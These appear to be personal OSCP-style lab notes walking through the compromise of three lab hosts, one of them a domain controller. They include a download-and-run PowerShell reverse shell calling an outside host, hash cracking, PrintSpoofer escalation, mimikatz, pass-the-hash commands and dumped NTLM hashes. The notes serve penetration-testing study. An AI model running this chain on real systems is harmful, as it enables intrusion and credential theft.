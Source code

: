 # 141
## Take Away
- Remember to check for public exploit even if the website does not look like one with a legit vendor.
## Exploitation
- Directory Brute Forcing will identify a `.sql`file at URL `http://192.168.217.141:81/DB/apsystem.sql` which can locate a pair of credential `nurhodelta` with hash `$2y$10$fCOiMky4n5hCJx3cpsG20Od4wHtlkCLKmO6VLobJNRIg9ooHTkgjK` belongs to `Neovic Devierte`.![[Pasted image 20240215202842.png]]
- Using  `hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`, we can retrieve the plaintext password simply as `password`.![[Pasted image 20240215201755.png]]
- `searchsploit` will identify an `RCE` related to the web application running at port `81`. ![[Pasted image 20240216105732.png]]
	- However, we need to modify the path correspondingly.![[Pasted image 20240216110650.png]]
	- Run `python3 50801.py http://192.168.226.141:81/` to obtain a semi-interactive web shell.
		- Within the shell, run `powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.229/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.229 443` to receive a fully-interactive reverse shell call back.
## PrivEsc
- Since we are logged in as user `ms01\mary.williams` with privilege `SeImpersonatePrivilege`, one can use `PrintSpoofer` to elevate privilege. ![[Pasted image 20240216134335.png]]
- Run `.\PrintSpoofer64.exe -i -c powershell` to elevate privilege. ![[Pasted image 20240216134552.png]
## Local Enumeration
- `mimikatz` with `sekurlsa::logonpasswords` can retrieve NTLM hash of the domain user `celia.almeda`. However, `hashcat` is not able to crack the hash.
- However, `proxychains netexec winrm 10.10.116.140 10.10.116.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd --continue-on-success` will identify the `celia` can access `xxx.xxx.xxx.142` through `winrm`. Hence, we can proceed our enumeration there.![[Pasted image 20240216142444.png]]
# 142
## Exploitation
Logging in as `celia.almeda` using `proxychains evil-winrm -i 10.10.116.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd`. ![[Pasted image 20240216171336.png]]
## Local Enumeration
- A little manual enumeration can find a window back file `windows.old` at the `C:\`. Retrieving `SAM` and `SYSTEM` file within using `winrm` download function. Finally, run `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` to retrieve multiple pairs of credentials.![[Pasted image 20240216171631.png]]
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```
# 140 DC
- Using `proxychains netexec smb 10.10.116.140 10.10.116.142 -u tom_admin -H 4979d69d4ca66955c075c41cf45f24dc --continue-on-success` to spray the newly found credential will discover `tom_admin` to be one of the `Domain Admins`.![[Pasted image 20240216172131.png]]
## Exploitation
- Obtain a shell using `proxychains impacket-psexec -hashes :4979d69d4ca66955c075c41cf45f24dc oscp/tom_admin@10.10.116.142 powershell.exe`